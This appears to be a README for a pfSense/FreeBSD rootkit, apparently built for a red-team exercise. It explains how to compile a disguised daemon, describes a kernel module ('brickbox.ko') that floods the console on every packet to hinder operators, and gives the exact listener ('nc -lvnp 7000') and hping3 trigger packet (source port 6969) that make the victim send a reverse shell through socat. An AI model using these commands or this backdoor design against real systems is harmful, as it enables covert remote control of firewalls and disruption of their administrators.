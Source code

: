 The "unused" directory holds the c code that compiles binaries.

To compile "apeshit" within pfsense you need to use "clang15 -I/sys -o apeshit apeshit_daemon.c" since stdio.h doesn't k know the path of cdefs.h. 

"apeshit_damon.c" produces "apeshit" which is a binary that creates a daemon that sleeps infinitly and is named apeshit, you can see it with "pgrep -l apeshit".

"brickbox.ko" posts an image and funny message everytime a packet comes in or goes out, this can actually be stopped by running <kldunload brickbox.ko> but who da hell is gonna know dat.  It is completely still possible to run commands but the screen prints really fast so it is hard to see shit.  Inside unused is "make_brick_box_face.c" which has comments at the top for the makefile and creates this bin.

We use socat since FreeBSD's native version of nc (netcat) doesn't allow for reverse shells.
Run "nc -lvnp 7000" on the attaking machine before asking for a reverse shell since you need to be listening for it, the listening port can't be 6969.
To construct a packet that will trigger the packet filtering and send a reverse shell simply run
"sudo hping3 -S -p <destination port> -s 6969 <ip of victim box>"
from your host machine targeting the ip of the victim box that has the rootkit, currently any destination port works.

